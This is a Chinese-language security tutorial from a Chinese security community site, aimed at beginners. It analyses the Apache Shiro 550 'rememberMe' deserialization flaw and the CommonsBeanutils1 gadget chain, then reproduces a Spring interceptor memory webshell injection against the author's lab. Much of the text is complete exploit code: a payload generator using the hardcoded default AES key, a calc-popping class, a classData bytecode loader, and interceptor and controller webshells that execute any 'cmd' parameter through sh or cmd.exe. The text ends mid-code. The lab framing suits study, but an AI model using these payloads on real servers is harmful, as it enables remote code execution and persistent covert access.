# 【带环境】保姆级shiro+spring环境分析并复现spring内存马注入-先知社区

> **来源**: https://xz.aliyun.com/news/18697  
> **文章ID**: 18697

---

# 【带环境】保姆级shiro+spring环境分析并复现spring内存马注入

一篇新手向的文章，读完这篇文章能够了解shiro550反序列化的原理和利用，CB链原理和利用，spring内存马注入原理和利用。整个文章深入浅出，同时也可以根据我给的代码，一起完成整个分析和复现。

这边我自己写了一个环境，方便进行shiro+spring环境下的内存马实验。链接如下：

[wanheiqiyihu/shirolab: shiro打spring内存马的复现环境和exp](https://github.com/wanheiqiyihu/shirolab)

# shiro550漏洞分析

要想打入内存马，我们首先要理解这个漏洞的成因，这样我们才能够编写好payload

前置知识：shiro是个鉴权框架，关于鉴权它使用的是filter机制，过这个框架的请求，都是shiro filter在最前面，然后才会进入到springmvc框架中。所以接下来我们看的代码，都是shiro filter中处理rememberme参数的部分。

这边我们先用burp发包，触发idea中的debug报错



点进这个`AbstractRememberMeManager`进去

看这个方法的名字就知道，`getRememberedPrincipals`用来处理rememberme这个参数的。（如果点进去没有方法的具体实现，需要点击idea右上角的弹窗，download source）



看他第一步try的方法`getRememberedSerializedIdentity`，也是看名字就是知道和rememberme反序列化有关的

跟进去之后点击这个按钮就能看到方法的都过；嗯了



我们简单来看看这个`getRememberedSerializedIdentity`



上图 红色里面是检测当前是否为http环境



继续走，这里红色的代码是看上下文信息是否被删除，被删除也不会处理上下文直接返回null



继续走，则是获取当前rememberme的值，其中`getCookie().readValue(request, response);`就是去请求中获取rememberme的函数，这是默认获取shiro的管理的 rememberMe Cookie 对象，默认名称就是rememberme。



最后这里就是处理base64信息的地方。所以很简单，这一坨代码就是解密了一下base64.。。

然后return出来了

这边我们回到最初的`getRememberedPrincipals`继续看



上面base解密完了之后，这边用了`convertBytesToPrincipals`方法去处理解密后的数据



跟进去一看，又是解密，然后直接反序列化。

我们跟到这里面这个`decrypt`去看看到底是个什么事



最关键的莫过于这两行

`cipherService.decrypt`方法解密之后，返回一个字节码出去

这里传了两个参数进去，熟悉的都知道这个就是关键的地方了，有硬编码的key。不过我们这里还是先看看这个解密方法。



可以看到这就是个aes的解密函数罢了，

回到刚刚的`cipherService.decrypt`，我们去看看他的加密key是从哪里获取的



get方法的下面就是set方法



那我们向上跟踪set方法，看看key是不是在过程中被赋值了。



一路向上跟踪，跟到这里`DEFAULT_CIPHER_KEY_BYTES`就是静态设置的key了



最后回到`convertBytesToPrincipals`方法



可以看到，在解密完成之后，就直接执行了反序列化操作。这边反序列化要实现rce需要利用链

rce的话这边有很多链子，我们可以先跟一条，学习到底，关于spring内存马的注入放到后面

# 关于CB链

反序列化攻击的本质是**利用目标环境中已有的类和方法调用关系**

其中CB链就是shiro环境中自带的，我们进行一些前置知识点的学习

## JavaBean

简单的讲，就是一个继承了Serializable的类，里面有get属性的方法和set属性的方法

```
import java.io.Serializable;
 
public class PersonBean implements Serializable {
    private int age;
    private String name;
 
    public int getAge() {
        return age;
    }
 
    public void setAge(int age) {
        this.age = age;
    }
 
    public String getName() {
        return name;
    }
 
    public void setName(String name) {
        this.name = name;
    }
}
```

然后这边就能调用get或者set方法

```
 public class Test {
    public static void main(String[] args) {
        PersonBean personBean = new PersonBean("wan",123);
        System.out.println(personBean.getAge());
        System.out.println(personBean.getName());
    }
}
```

这边在commons-beanutils中，提供了动态访问的方法：

```
import org.apache.commons.beanutils.PropertyUtils;
 
import java.lang.reflect.InvocationTargetException;
 
public class Test {
    public static void main(String[] args) throws InvocationTargetException, IllegalAccessException, NoSuchMethodException {
        PersonBean personBean = new PersonBean("asd",123);
        System.out.println(PropertyUtils.getProperty(personBean,"age"));
        System.out.println(PropertyUtils.getProperty(personBean,"name"));
    }
```

能通过`PropertyUtils.getProperty`去自动调用get方法，只要是符合命名规则的get方法，都能被调用。就是JavaBean的命名规则。

## 关于PropertyUtils.getProperty

我们这里去看看`PropertyUtils.getProperty`看看是怎么实现的



我在项目中加入了测试的代码，大家拿到项目也可以直接到这来跟。



直接跟进`PropertyUtils.getProperty`方法



发现调用了`PropertyUtilsBean.getInstance().getProperty(bean, name)`,继续跟进去



发现调用了`getNestedProperty`，继续跟进去



这边说说这一堆if是干嘛的

```
    Object nestedBean = null;
    if (bean instanceof Map) {
        // 如果当前对象是Map，直接通过key获取值（如map.get("address")）
        nestedBean = this.getPropertyOfMapBean((Map)bean, next);
    } else if (this.resolver.isMapped(next)) {
        // 如果属性是映射类型（如"userMap(123)"），获取映射值
        nestedBean = this.getMappedProperty(bean, next);
    } else if (this.resolver.isIndexed(next)) {
        // 如果属性是索引类型（如"list[0]"），获取索引位置的值
        nestedBean = this.getIndexedProperty(bean, next);
    } else {
        // 普通属性，通过getter方法获取（如user.getAddress()）
        nestedBean = this.getSimpleProperty(bean, next);
    }
```

也就是说，如果是普通属性，他是通过`this.getSimpleProperty`这个方法实现获取的，我们继续跟进去看看。



前面那一堆if是错误处理的逻辑，这些校验确保方法只处理 “简单属性”（如`name`、`age`），不处理嵌套（`address.city`）、集合索引（`users[0]`）等复杂场景。

最后一个else就是如果是普通的java对象，就会通过反射去调用get方法。

```
// 步骤1：获取属性描述符（包含属性的getter/setter信息）
PropertyDescriptor descriptor = this.getPropertyDescriptor(bean, name);
if (descriptor == null) { ... } // 属性不存在，抛异常

// 步骤2：获取该属性的getter方法（如getName()）
Method readMethod = this.getReadMethod(bean.getClass(), descriptor);
if (readMethod == null) { ... } // 没有getter方法，抛异常

// 步骤3：调用getter方法，获取属性值
Object value = this.invokeMethod(readMethod, bean, EMPTY_OBJECT_ARRAY);
return value;
```

`getReadMethod`：从属性描述符中提取 getter 方法（必须遵循`getXxx()`命名规范，如`name`对应`getName()`）

也就是说，只要复合这个命名规范，那就能执行get方法。

这就是整个获取普通java对象的get方法并且执行的一个流程。

## TemplatesImpl的getOutputProperties

上面我们提到反序列化攻击的本质是**利用目标环境中已有的类和方法调用关系**，然后通过配置各种类中的属性或者字段去进行攻击。

现在目标环境中存在一个点，可以自动调用其他类的get方法。我们现在就要去找一个符合`getXxx()`的方法，并且这个方法里面能够执行我们的恶意操作或者通往其他方法。这边有前辈就想到了

TemplatesImpl类里面有个getOutputProperties方法，用到了newtransformer，而是可以动态加载类的

`newTransformer`**会把**`_bytecodes`**中存储的字节码（可以是任意类的字节码）加载为 JVM 中的 Class 对象，并实例化**。

我们只需要配置`_bytecodes`即可



## 反序列化的入口点

现在我们反序列化的中途流程都有了，但是入口点，就是怎么才会走到`PropertyUtils.getProperty`也需要看看

`PriorityQueue`这个类作为我们的入口点来使用，因为

1. 它实现了`Serializable`接口，支持序列化 / 反序列化；
2. 其`readObject`方法在反序列化时会自动调用`heapify()`方法，用于重建堆结构；
3. `heapify()`会触发队列中元素的比较操作（调用`comparator.compare()`），而`comparator`是一个可配置的属性（可通过反射修改）。

在 CB 链中，`comparator`被替换为`BeanComparator`（来自 Commons Beanutils 库），其`compare`方法的核心逻辑是：

```
public class BeanComparator implements Comparator {
    private String property; // 要比较的属性名（如"outputProperties"）
    private Comparator comparator; // 底层比较器

    public int compare(Object o1, Object o2) {
        // 1. 获取o1的property属性值（通过getter方法）
        Object value1 = PropertyUtils.getProperty(o1, property);
        // 2. 获取o2的property属性值
        Object value2 = PropertyUtils.getProperty(o2, property);
        // 3. 比较两个值
        return comparator.compare(value1, value2);
    }
}
```

这里面就会调用PropertyUtils.getProperty。

1. 根据`property`属性（我们预先设置为`"outputProperties"`），调用`PropertyUtils.getProperty(o1, "outputProperties")`；
2. `PropertyUtils.getProperty`会进一步调用`getSimpleProperty`，通过反射找到`o1`（`TemplatesImpl`实例）的`getOutputProperties()`方法并执行；
3. `TemplatesImpl.getOutputProperties()`会调用`newTransformer()`，进而加载`_bytecodes`中的恶意类字节码，触发恶意逻辑（如命令执行、内存马注入）。

## 开始构造poc

链子就是这样

```
PriorityQueue.readObject()
  PriorityQueue.heapify()
    PriorityQueue.sift()
      PriorityQueue.siftDownUsingComparator()
        BeanComparator.compare
            PropertyUtils.getProperty
                TemplatesImpl.getOutputProperties
                    TemplatesImpl.newTransformer
```

CB链（CommonsBeanutils1链）的核心是利用BeanComparator的compare方法调用对象的getter方法，从而触发TemplatesImpl的getOutputProperties方法，最终执行恶意字节码。

最终我们传进去被序列化的对象如下

```
PriorityQueue {
    comparator: BeanComparator {
        property: "outputProperties"
        comparator: String.CASE_INSENSITIVE_ORDER
    }
    queue: [TemplatesImpl1, TemplatesImpl2] {
        _bytecodes: [恶意类字节码]
        _name: "HelloTemplatesImpl"
        _tfactory: TransformerFactoryImpl
    }
}
```

这个\_bytecodes就弄个弹计算器的就行

```
package demo;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Evil extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public Evil() throws Exception {
        super();
        Runtime.getRuntime().exec("calc");
    }
}
```

然后这边创建CB的链子

```
package demo;

// 导入必要的类库
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  // XSLT模板实现类，用于执行恶意代码
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  // XSLT转换工厂实现
import org.apache.commons.beanutils.BeanComparator;  // Bean比较器，用于触发反序列化链

import java.io.ByteArrayOutputStream;  // 字节数组输出流
import java.io.ObjectOutputStream;     // 对象序列化输出流
import java.lang.reflect.Field;        // 反射字段类
import java.util.PriorityQueue;        // 优先队列，用于触发比较器

/**
 * CB类 - CommonsBeanutils反序列化链生成器
 * 用于生成CommonsBeanutils1反序列化漏洞的payload
 * 该链利用PriorityQueue的序列化机制触发BeanComparator的比较方法
 */
public class CB {
    
    /**
     * 通过反射设置对象的字段值
     * 用于修改私有字段，绕过访问限制
     * 
     * @param obj 目标对象
     * @param fieldName 字段名
     * @param value 要设置的值
     * @throws Exception 反射操作异常
     */
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        // 获取指定字段的Field对象
        Field field = obj.getClass().getDeclaredField(fieldName);
        // 设置字段可访问（绕过private修饰符）
        field.setAccessible(true);
        // 设置字段值
        field.set(obj, value);
    }

    /**
     * 生成CommonsBeanutils1反序列化链的payload
     * 利用PriorityQueue + BeanComparator + TemplatesImpl构造恶意序列化数据
     * 
     * @param clazzBytes 恶意类的字节码数组
     * @return 序列化后的字节数组
     * @throws Exception 序列化或反射操作异常
     */
    public byte[] getPayload(byte[] clazzBytes) throws Exception {
        // 创建TemplatesImpl对象，用于执行恶意代码
        TemplatesImpl obj = new TemplatesImpl();
        
        // 通过反射设置TemplatesImpl的关键字段
        // _bytecodes: 存储要执行的类字节码
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        // _name: 设置类名，触发类加载
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        // _tfactory: 设置转换工厂，用于XSLT处理
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        // 创建BeanComparator比较器，初始property为null
        // String.CASE_INSENSITIVE_ORDER作为备用比较器
        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        
        // 创建PriorityQueue，使用BeanComparator作为比较器
        // 初始容量为2，用于存储两个元素
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        
        // 添加占位数据，稍后会被替换
        // PriorityQueue在序列化时会调用比较器进行排序
        queue.add("1");
        queue.add("1");

        // 通过反射修改BeanComparator的property字段
        // 设置为"outputProperties"，这是TemplatesImpl的一个getter方法
        // 当PriorityQueue序列化时，会调用comparator.compare()方法
        // compare()方法会调用getter方法获取属性值进行比较
        setFieldValue(comparator, "property", "outputProperties");
        
        // 通过反射替换PriorityQueue内部的队列数组
        // 将占位数据替换为TemplatesImpl对象
        // 这样在序列化时，比较器会调用TemplatesImpl.getOutputProperties()
        // 从而触发恶意类的实例化和代码执行
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        // ==================
        // 生成序列化字符串
        // 将构造好的PriorityQueue对象序列化为字节数组
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);  // 序列化PriorityQueue对象
        oos.close();

        // 返回序列化后的字节数组
        // 这个字节数组就是最终的payload，可以被反序列化触发漏洞
        return barr.toByteArray();
    }
}

```

最后写个加密逻辑即可

```
package demo;

import javassist.ClassPool;
import javassist.CtClass;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

public class Client1 {
    public static void main(String []args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(demo.Evil.class.getName());
        byte[] payloads = new CB().getPayload(clazz.toBytecode());

        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```



可以看到也是成功执行命令



但是现在只有执行命令，我们想打入内存马怎么办，这里我们借机继续学习一下sping的内存马。

# spring拦截器内存马分析

## 原理剖析

当一个Request发送到Spring应用时，大致会经过如下几个层面才会进入Controller层：HttpRequest --> Filter --> DispactherServlet --> `Interceptor` --> Controller,下面的问题就是如何动态地注册一个恶意的Interceptor了。

Spring Interceptor型内存马的编写思路：

1. 获取ApplicationContext
2. 通过AbstractHandlerMapping反射来获取adaptedInterceptors
3. 将要注入的恶意拦截器放入到adaptedInterceptors中

简单思路：  
1.获取当前运行环境的上下文  
2.实现恶意Interceptor  
3.注入恶意Interceptor

[Java内存马：一种Tomcat全版本获取StandardContext的新方法-先知社区](https://xz.aliyun.com/news/9369)

关于获取上下文，可以参考这篇文章

我们这边直接来源码中进行分析

在我们的controller的源码的地方，打上断点，然后去看



找到这个方法`doDispatch`点进去



可以看到由DispatcherServlet的doDispatch去处理请求，其中具体部分则是

```
mv = ha.handle(processedRequest, response, mappedHandler.getHandler());
```

在DispatcherServlet调用HandlerAdapter#handle处理request和response。并且此处用getHandler方法获取了mappedHandler的Handler

往上看，mappedHandler是对handlerMappings进行遍历。



* 该方法尝试从注册的处理器映射（HandlerMapping）中找到与当前请求匹配的处理器
* 返回的 HandlerExecutionChain 包含了实际的处理器（Handler）和相关的拦截器（Interceptor）

继续跟`mapping.getHandler`，因为他在里面处理request



1. 先是通过getHandlerInternal来获取，如果获取不到，那就调用getDefaultHandler来获取默认的，如果还是获取不到，就直接返回null；
2. 然后检查handler是不是一个字符串，如果是，说明可能是一个Bean的名字，这样的话就通过ApplicationContext来获取对应名字的Bean对象，这样就确保 handler 最终会是一个合法的处理器对象；
3. 接着检查是否已经有缓存的请求路径，如果没有缓存就调用 `initLookupPath(request)` 方法来初始化请求路径的查找；
4. 最后通过 `getHandlerExecutionChain` 方法创建一个处理器执行链。

跟进到`getHandlerExecutionChain`方法



1. 如果 handler 已是 HandlerExecutionChain 类型，则直接使用；
2. 否则新建一个包装该处理器的执行链，遍历所有adaptedInterceptors拦截器，若拦截器是 MappedInterceptor 类型且匹配当前请求，则将其加入执行链。
3. 返回最终的执行链对象。  
   这样就得到了`executionChain`
4. 由此可得adaptedInterceptors就存放了全部拦截器

用 `Interceptor` 来拦截所有进入 `Controller` 的 http 请求理论上是可行的，接下来就是实现从代码层面动态注入一个 `Interceptor` 来达到 `webshell` 的效果。

可以通过继承 `HandlerInterceptorAdapter` 类或者`HandlerInterceptor` 类并重写其 preHandle 方法实现拦截。preHandle是请求执行前执行，preHandle 方法中写一些拦截的处理。

## 自己实现一个拦截器

加深理解用



还是在这个项目中，其目录如上

在preHandle中，修改了响应头`X-Test-Interceptor`，如果我们访问注册过的路径，相应头就会有这个效果

```
package com.example.shirolab.web.interceptor;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

import org.slf4j.Logger;
import org.slf4j.LoggerFactory;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.ModelAndView;

public class TestInterceptor implements HandlerInterceptor {
    private static final Logger log = LoggerFactory.getLogger(TestInterceptor.class);

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        long start = System.currentTimeMillis();
        request.setAttribute("__ti_start", start);
        // 提前写入一个可见的响应头，确保客户端能看到
        response.addHeader("X-Test-Interceptor", "hit");
        log.info("[TestInterceptor] preHandle: {} {}", request.getMethod(), request.getRequestURI());
        return true;
    }

    @Override
    public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
        Object st = request.getAttribute("__ti_start");
        if (st instanceof Long) {
            long cost = System.currentTimeMillis() - (Long) st;
            // 覆盖为最终耗时（若响应未提交）
            response.setHeader("X-Test-Interceptor", "cost=" + cost + "ms");
            log.info("[TestInterceptor] postHandle: {} {}, cost={}ms", request.getMethod(), request.getRequestURI(), cost);
        }
    }
}

```

然后注册一下，路径设置一个测试路径`/intercept/**`

```
package com.example.shirolab.config;

import com.example.shirolab.web.interceptor.RequestLogInterceptor;
import com.example.shirolab.web.interceptor.TestInterceptor;
import org.springframework.context.annotation.Configuration;
import org.springframework.web.servlet.config.annotation.InterceptorRegistry;
import org.springframework.web.servlet.config.annotation.WebMvcConfigurer;

@Configuration
public class WebMvcConfig implements WebMvcConfigurer {

    @Override
    public void addInterceptors(InterceptorRegistry registry) {
        registry.addInterceptor(new RequestLogInterceptor())
                .addPathPatterns("/**")
                .excludePathPatterns("/css/**", "/js/**", "/images/**");

        registry.addInterceptor(new TestInterceptor())
                .addPathPatterns("/intercept/**");
    }
}
```

最后效果如下



如果我们把这个改响应头的操作改成执行命令，那就是一个内存马了。

## 实现spring内存马

基本上写到注释中了

```
package com.example.shirolab.web.interceptor;

import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.List;
import java.util.Scanner;

/**
 * 恶意拦截器 - Spring内存马
 * 通过反射注入到Spring MVC的拦截器链中
 * 访问任意URL时，如果带有cmd参数就会执行命令
 */
public class InjectInterceptor implements HandlerInterceptor {
    
    static {
        try {
            // 获取Spring上下文
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes()
                    .getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            
            // 获取RequestMappingHandlerMapping - 明确指定bean名称
            RequestMappingHandlerMapping mappingHandlerMapping = context.getBean("requestMappingHandlerMapping", RequestMappingHandlerMapping.class);
            
            // 通过反射获取adaptedInterceptors字段
            Field field = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
            field.setAccessible(true);
            
            // 获取拦截器列表
            List<HandlerInterceptor> adaptInterceptors = (List<HandlerInterceptor>) field.get(mappingHandlerMapping);
            
            // 注入恶意拦截器
            InjectInterceptor evilInterceptor = new InjectInterceptor();
            adaptInterceptors.add(evilInterceptor);
            
            System.out.println("[InjectInterceptor] 恶意拦截器注入成功！");
        } catch (Exception e) {
            System.err.println("[InjectInterceptor] 注入失败: " + e.getMessage());
            e.printStackTrace();
        }
    }

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        // 检查是否有cmd参数
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            try {
                System.out.println("[InjectInterceptor] 执行命令: " + cmd);
                
                // 判断操作系统类型
                boolean isLinux = true;
                String osType = System.getProperty("os.name");
                if (osType != null && osType.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                
                // 构建命令数组
                String[] cmds = isLinux ? 
                    new String[]{"sh", "-c", cmd} : 
                    new String[]{"cmd.exe", "/c", cmd};
                
                // 执行命令
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\A");
                String output = s.hasNext() ? s.next() : "";
                
                // 输出结果
                response.getWriter().write(output);
                response.getWriter().flush();
                response.getWriter().close();
                
                System.out.println("[InjectInterceptor] 命令执行完成");
            } catch (Exception e) {
                System.err.println("[InjectInterceptor] 命令执行失败: " + e.getMessage());
                e.printStackTrace();
            }
            return false; // 阻止继续处理
        }
        return true; // 继续正常处理
    }

    @Override
    public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
        HandlerInterceptor.super.postHandle(request, response, handler, modelAndView);
    }

    @Override
    public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
        HandlerInterceptor.super.afterCompletion(request, response, handler, ex);
    }
}

```

然后整一个控制器作为口子

```
package com.example.shirolab.web;

import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Method;
import java.util.Scanner;

@RestController
public class InjectController {
    @RequestMapping("/inject")
    public String inject() throws Exception{
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);

        RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean("requestMappingHandlerMapping", RequestMappingHandlerMapping.class);

        Method method = InjectedController.class.getMethod("cmd");

        PatternsRequestCondition url = new PatternsRequestCondition("/evilcontroller");

        RequestMethodsRequestCondition condition = new RequestMethodsRequestCondition();

        RequestMappingInfo info = new RequestMappingInfo(url, condition, null, null, null, null, null);

        InjectedController injectedController = new InjectedController();

        requestMappingHandlerMapping.registerMapping(info, injectedController, method);

        return "Inject done";
    }

    @RestController
    public static class InjectedController {
        public InjectedController(){
        }
        public void cmd() throws Exception {
            HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
            HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
                response.getWriter().close();
            }
        }
    }
}

```





成功实现内存马，代码我放到这里的



## 长度限制绕过

现在我们知道怎么注入内存马了，但是如何通过shiro反序列化去注入呢？这边还是有点难度的。

如果header过长，就会导致tomcat没办法处理我们的请求

原因在于tomcat的maxHttpHeaderSize默认值只有 4096 个字节(4k)

这是一些市面上的解决方法

1）修改maxHttpHeaderSize

2）将class bytes使用gzip+base64压缩编码

3）从POST请求体中发送字节码数据

我们这边尝试使用从POST请求体中发送字节码数据

之所以要通过`RequestContextHolder`获取上下文信息（`request`、`response`、`session`等对象），而不是直接`new`一个，核心原因是**这些对象是 Web 容器（如 Tomcat）在处理 HTTP 请求时自动创建的，与当前请求强绑定，无法通过手动**`new`**来获得有效的实例**。

```
package demo;
// 导入Xalan XSLT处理器相关的类，用于实现XSLT转换功能
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

// 定义恶意类Evil，继承自AbstractTranslet（Xalan的转译器基类）
public class Evil extends AbstractTranslet {
    // 静态代码块，类加载时自动执行
    static{
        try{
            // 调试输出，标记代码执行点
            System.out.println("damn bro");
            
            // 通过Spring的RequestContextHolder获取当前请求上下文属性
            // 并强制转换为ServletRequestAttributes以获取HttpServletRequest对象
            javax.servlet.http.HttpServletRequest request = ((org.springframework.web.context.request.ServletRequestAttributes)
                org.springframework.web.context.request.RequestContextHolder.getRequestAttributes()).getRequest();
            
            // 使用反射获取HttpServletRequest实现类中的"request"字段
            java.lang.reflect.Field r = request.getClass().getDeclaredField("request");
            // 设置字段可访问（绕过访问权限检查）
            r.setAccessible(true);
            
            // 通过反射获取该字段的值（Tomcat容器内部的Request对象）
            // 并强制转换为org.apache.catalina.connector.Request，再获取对应的Response对象
            org.apache.catalina.connector.Response response = 
                ((org.apache.catalina.connector.Request) r.get(request)).getResponse();
            
            // 从当前请求中获取HttpSession对象
            javax.servlet.http.HttpSession session = request.getSession();
            
            // 调试输出，标记代码执行点
            System.out.println("damn bro2");
            
            // 从请求参数中获取名为"classData"的参数值（Base64编码的类字节码）
            String classData = request.getParameter("classData");
            
            // 调试输出，标记代码执行点
            System.out.println("damn bro3");
            
            // 添加null检查，避免空指针异常
            if (classData != null && !classData.isEmpty()) {
                // 使用BASE64Decoder将classData解码为字节数组（类的二进制字节码）
                byte[] classBytes = new sun.misc.BASE64Decoder().decodeBuffer(classData);
                
                // 通过反射获取ClassLoader类的defineClass方法
                // 该方法用于将字节数组转换为Class对象
                java.lang.reflect.Method defineClassMethod = 
                    ClassLoader.class.getDeclaredMethod("defineClass", 
                    new Class[]{byte[].class, int.class, int.class});
                
                // 设置方法可访问（绕过访问权限检查）
                defineClassMethod.setAccessible(true);
                
                // 调用defineClass方法，使用当前类(Evil)的类加载器加载字节码，生成Class对象
                Class cc = (Class) defineClassMethod.invoke(
                    Evil.class.getClassLoader(), classBytes, 0, classBytes.length);
                
                // 实例化动态加载的类，并调用其equals方法，传入request、response、session作为参数
                // 注意：这里实际是利用equals方法执行恶意逻辑，而非比较对象相等性
                cc.newInstance().equals(new Object[]{request, response, session});
                
                // 调试输出，标记代码执行点
                System.out.println("dan bro4");
            } else {
                // 当classData为null或空时输出提示
                System.out.println("classData is null or empty");
            }
        } catch(Exception e) {
            // 捕获所有异常并打印堆栈信息
            e.printStackTrace();
        }
    }
    
    // 重写AbstractTranslet的transform方法（空实现，仅为满足抽象类要求）
    @Override
    public void transform(DOM arg0, SerializationHandler[] arg1) throws TransletException {
    }
    
    // 重写AbstractTranslet的transform方法（空实现，仅为满足抽象类要求）
    @Override
    public void transform(DOM arg0, DTMAxisIterator arg1, SerializationHandler arg2) throws TransletException {
    }
}
```

[Java代码执行漏洞中类动态加载的应用 | l3yx's blog](https://l3yx.github.io/2020/07/06/Java代码执行漏洞中类动态加载的应用/)

最后我们只需要把这个loader放到rememberme，然后参数中包含一个classData参数，传入一个恶意类去执行即可。我这里传入的是calc。成功复现，值得一提的是，classdata参数必须要url编码才行。



# 注入内存马

终于来到整个研究的最后一个阶段，通过shiro注入一个spring的拦截器内存马。整个流程我们之前都分析过，只需要把classdata恶意类改成注入内存马的那个exp即可，把这个作为classData传入即可

```
package demo;

import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.List;
import java.util.Scanner;

/**
 * 恶意拦截器 - Spring内存马
 * 通过Evil类动态加载后，在静态代码块中注入到Spring MVC拦截器链
 * 访问任意URL时，如果带有cmd参数就会执行命令
 */
public class calc implements HandlerInterceptor {
    
    static {
        System.out.println("[calc] 静态代码块开始执行");
        try {
            System.out.println("[calc] 尝试获取Spring上下文...");
            
            // 尝试获取RequestContextHolder
            try {
                System.out.println("[calc] 尝试获取RequestContextHolder...");
                Object requestAttributes = RequestContextHolder.currentRequestAttributes();
                System.out.println("[calc] RequestContextHolder获取成功: " + requestAttributes);
            } catch (Exception e) {
                System.err.println("[calc] RequestContextHolder获取失败: " + e.getClass().getName() + " - " + e.getMessage());
                e.printStackTrace();
            }
            
            // 尝试多种方式获取Spring上下文
            WebApplicationContext context = null;
            
            // 方法1: 尝试不同的属性名称
            try {
                System.out.println("[calc] 方法1: 尝试属性 'org.springframework.web.servlet.DispatcherServlet.CONTEXT'");
                context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes()
                        .getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
                if (context != null) {
                    System.out.println("[calc] 方法1成功: " + context);
                } else {
                    System.out.println("[calc] 方法1失败: 属性值为null");
                }
            } catch (Exception e) {
                System.err.println("[calc] 方法1异常: " + e.getClass().getName() + " - " + e.getMessage());
            }
            
            // 方法2: 尝试其他可能的属性名称
            if (context == null) {
                try {
